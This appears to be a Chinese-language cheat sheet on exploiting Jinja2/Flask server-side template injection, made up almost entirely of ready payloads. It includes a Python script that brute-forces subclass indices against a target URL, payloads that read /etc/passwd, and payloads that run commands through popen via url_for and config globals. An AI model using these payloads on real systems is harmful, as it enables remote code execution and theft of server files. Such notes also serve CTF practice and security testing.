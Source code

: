 `?cmd={{[].__class__.__base__.__subclasses__()[139].__init__.__globals__['popen']('dir').read()}}`
![](photos/Pasted%20image%2020240106013148.png)


#### 常见模块利用

- **查找模块在列表第几位(可改)**
```python
import requests  
url = 'http://127.0.0.1:8080/'  
  
for i in range(500):  
    # data = {"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}  
    payload = "{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"  
    full_url = f"{url}?cmd={payload}"  
    try:  
        # response = requests.post(url,data=data)  
        response = requests.get(full_url)  
        # print(response.text)  
        if response.status_code == 200 and '_frozen_importlib_external.FileLoader' in response.text:  
            print(i)  
    except:  
        pass
```

**文件读取**
` _frozen_importlib_external.FileLoader`
```
{{().__class__.__base__.__subclasses__()[NUM]["get_data"](0,"/etc/passwd")}}
```

`file`
```
{{[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()}}
```


**查看内置函数 - 命令执行**
```
{{self.__dict__._TemplateReference__context.keys()}}
```

`url_for`
```
{{url_for.__globals__.os.popen('id').read()}}
```

`config`
```
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```
